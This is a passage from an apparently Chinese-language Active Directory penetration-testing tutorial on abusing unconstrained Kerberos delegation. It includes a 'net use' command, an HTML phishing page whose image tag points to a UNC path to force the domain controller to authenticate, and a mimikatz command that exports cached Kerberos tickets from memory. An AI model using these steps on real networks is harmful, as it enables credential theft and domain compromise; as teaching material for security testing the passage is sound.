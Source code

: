### 2.2.3. 机器通讯

使用域控与委派机器通讯，为的就是让域控将直接的请求信息发送给域内主机，域内主机则会将请求的票据保存到内存中，当然这里可能会出现一个问题就是，域控平常很少主动去连接域内主机，同时就算连接，为什么需要使用查询操作。

其实这里还可以采用钓鱼的方式进行通讯，简单来说就是在域内主机上找到一台开启web服务的主机，并且控制它，挂一个黑连上去，引诱去点击，不过说真的，正常去访问网页，谁去使用域控服务器去访问网页，除非无意间。

```
net use \\WIN-U7VV2NU5E5Q



网页钓鱼：
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  <img src="file:///\\192.168.3.10\2">
</body>
</html>
```

![image-20230801160725802](assets/image-20230801160725802.png)

### 2.2.4. 导出票据

这里域控刚刚请求的票据从内存中导出来。

```
mimikatz sekurlsa::tickets /export
```
